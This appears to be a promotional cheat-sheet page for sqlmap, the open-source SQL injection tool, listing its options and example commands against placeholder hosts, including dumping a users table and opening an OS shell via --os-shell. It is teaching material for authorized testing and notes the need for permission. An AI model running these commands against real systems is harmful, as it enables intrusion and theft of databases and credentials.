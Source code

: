 # sqlmap – Automated SQL Injection Tool

**sqlmap** is an open-source penetration testing tool that automates the detection and exploitation of SQL injection flaws. It supports a wide range of databases and can perform everything from data extraction to remote code execution.

🔗 [Use the SQLMap Command Generator on SploitHQ](https://sploithq.com/sqlmap)

---

## 🔍 What Can sqlmap Do?

- Detect and exploit SQL injection vulnerabilities
- Enumerate databases, tables, and columns
- Extract data, credentials, and file contents
- Read/write local files via SQL injection
- Execute OS commands on vulnerable systems
- Support GET, POST, cookies, headers, and custom injection points

---

## ⚙️ Basic Usage

```bash
sqlmap -u "http://example.com/page.php?id=1"
```

This tests the `id` parameter in the URL for SQL injection vulnerabilities.

---

## 🧰 Commonly Used Options

| Option                       | Description                                                |
|------------------------------|------------------------------------------------------------|
| `-u <url>`                   | Target URL with injection point                            |
| `--data "<payload>"`         | POST data for testing form parameters                      |
| `--cookie "<cookie>"`        | Supply cookies manually                                    |
| `--level <1-5>`              | Number of tests per parameter (default: 1)                 |
| `--risk <1-3>`               | Risk of tests (default: 1)                                 |
| `--dbs`                      | Enumerate databases                                        |
| `--tables -D <db>`           | List tables from a specific database                      |
| `--columns -D <db> -T <tbl>` | List columns in a specific table                          |
| `--dump -D <db> -T <tbl>`    | Dump data from a table                                     |
| `--os-shell`                 | Spawn a basic OS shell via SQLi                           |
| `--batch`                    | Skip confirmation prompts (useful for automation)          |

---

## 🧪 Examples

### Test a simple GET parameter
```bash
sqlmap -u "http://testsite.com/product.php?id=3"
```

### Test a form with POST data
```bash
sqlmap -u "http://testsite.com/login.php" --data="username=admin&password=123"
```

### Use a specific cookie
```bash
sqlmap -u "http://target.com/profile" --cookie="auth=abc123"
```

### List databases
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

### Dump all user data from a table
```bash
sqlmap -u "http://target.com/?id=1" --dump -D usersdb -T users
```

### Get an interactive OS shell
```bash
sqlmap -u "http://target.com/page.php?id=1" --os-shell
```

---

## ⚠️ Notes

- Always get **explicit permission** before testing websites or applications.
- sqlmap is extremely powerful and can cause database disruptions.
- Use `--batch` for automated tools and scripts.

---

## 🌐 Live Command Generator

Build SQLMap commands without memorizing flags.

👉 [Use the SQLMap Generator on SploitHQ](https://sploithq.com/sqlmap)

- Select method: GET, POST, Cookie, Header
- Choose action: enumerate, dump, shell
- Auto-generate and copy your command

---

## 🔗 Useful Links

- [sqlmap Official Site](https://sqlmap.org/)
- [sqlmap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
- [sqlmap Man Page (die.net)](https://linux.die.net/man/1/sqlmap)
- [SploitHQ SQLMap Tool](https://sploithq.com/sqlmap)

---

## 📄 License

sqlmap is open-source software licensed under the [GPL v2.0](https://www.gnu.org/licenses/old-licenses/gpl-2.0.html).

This page is maintained by [SploitHQ](https://sploithq.com) and is not affiliated with the sqlmap developers.
